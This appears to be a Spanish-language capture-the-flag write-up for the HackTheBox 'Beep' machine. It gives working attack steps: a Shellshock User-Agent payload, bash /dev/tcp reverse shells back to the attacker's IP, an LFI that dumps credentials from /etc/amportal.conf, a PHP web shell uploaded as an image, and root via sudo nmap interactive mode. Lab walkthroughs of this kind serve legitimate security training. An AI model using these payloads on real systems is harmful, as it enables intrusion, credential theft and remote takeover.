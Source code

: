 ```yaml
---
title: HackTheBox - Beep
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, ShellShock, 'File Upload', LFI, 'Information Leakage']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Beep/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Beep Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **ShellShock, File Upload, LFI, Information Leakage**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Beep`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Beep/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**


> En caso de que alguna de las páginas web contempladas en esta máquina nos de este problema **This website might not support the TLS 1.2 protocol** lo que haremos es ir a la configuración del navegador y colocar lo siguiente en la versión mínima y máxima del **TLS Soportado**
{: .prompt-info }

![](/assets/images/HTB/Easy/Beep/solution.png)


### Primera Forma 1️⃣

a. Accedemos al sitio web ejecutándose en el puerto **`10000`**

![](/assets/images/HTB/Easy/Beep/s1-web.png)

* Al intentar autenticarnos con credenciales comunes, veremos que la **URL nos lleva a `session_login.cgi`**.
* La clave aquí es la extensión **.cgi**, la presencia de esto lo comúnmente vulnerable a **`ShellShock`**.

b. Interceptamos la petición con **Burp Suite** y cambiamos la cabecera **`User-Agent`** por `() { :; }; [Comando]`.

* A pesar de no ver el **output del comando**, sabemos que estamos ejecutando comandos, ya que si levantamos un servidor **http** con Python (**`python -m http.server 8000`**) y en el comando a ejecutar hacemos una petición con **curl** (**curl -s -X GET <tun0 IP> 8000**) veremos la petición en nuestro servidor.

![](/assets/images/HTB/Easy/Beep/s1-command.png)

c. Entonces lo que haremos es enviarnos un **shell** con el comando **`bash -i >& /dev/tcp/<tun0 IP>/443 0>&1`** y antes de enviar este comando, nos ponemos en escucha con **nc en nuestra máquina**

![](/assets/images/HTB/Easy/Beep/s1-shell.png)

d. Al recibir la **`shell`** lo hacemos como el usuario **`root`**, por lo que podemos leer las dos **`flags`**

```bash
[root@beep fanis]# cat user.txt
cb059ef8e26fd457e39c711999a7bb07

[root@beep ~]# cat root.txt
36fa1cd62f78c3ab36b35bd7edc4e69e
```

### Segunda Forma 2️⃣

a. Vemos los siguientes servicios

```bash
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
```

![](/assets/images/HTB/Easy/Beep/s2-web.png)

* Al buscar por vulnerabilidades para este servicio encontramos un **`LFI`**

```
Elastix 2.2.0 - 'graph.php' Local File Inclusion | php/webapps/37637.pl

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

b. Si vamos a la ruta especificada vemos que podemos cargar el contenido del archivo **`/etc/amportal.conf`**, en el cual veremos credenciales

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
AMPDBUSER=asteriskuser
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
AMPMGRPASS=jEhdIekWmdjE
```

* Al ir probando las credenciales veremos, que son válidas para **`/vtigercrm`** y para el panel de **`elastix`**

c. Vamos al panel de **`/vtigercrm`** y **`Settings > Editing Company Details`**, en este formulario existe un campo para cambiar el logo de la compañía, y aquí podremos subir un archivo **`php`** para ejectuar comandos.

1. Lo que haremos es crear un archivo **`backup.jpg`** con el siguiente contenido **`<?php system($_GET["cmd"]); ?>`**

2. Interceptamos la petición con **`Burp Suite`** y cambiamos el nombre del archivo

![](/assets/images/HTB/Easy/Beep/s2-burp.png)

* Enviamos la petición, y apesar, de que veamos un mensaje de **`error`** vemos que se subió nuestro archivo

    * **URL: `https://<IP>/vtigercrm/test/logo/`**

        ![](/assets/images/HTB/Easy/Beep/s3-shell.png)

3. Accedemos al archivo y nos enviamos un **`shell`**, nos ponemos en escucha con **`nc`** previamente y envíamos el comando
 
* **URL: `https://<IP>/vtigercrm/test/logo/shell.php?cmd=bash -c 'bash -i %3E%26 /dev/tcp/<tun0 IP>/443 0>&1`**

```bash
nc -lvnp 443
bash-3.2$
```

### Escalada de Privilegios 💹

a. Listamos nuestros privilegios en el sistema

```bash
sudo -l

User asterisk may run the following commands on this host:
  (root) NOPASSWD: /usr/bin/nmap
```

b. Vamos a [GTFObins](https://gtfobins.github.io/) y vemos si podemos convertirnos en el usario **`root`** a través de **`nmap`**, después de eso, leemos la **`flag`**

```bash
bash-3.2$ sudo nmap --interactive
                                               
Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )                                                               
Welcome to Interactive Mode -- press h <enter> for help                                                               
nmap> !sh
whoami
root           
                                
cat /root/root.txt                                               
36fa1cd62f78c3ab36b35bd7edc4e69e
```
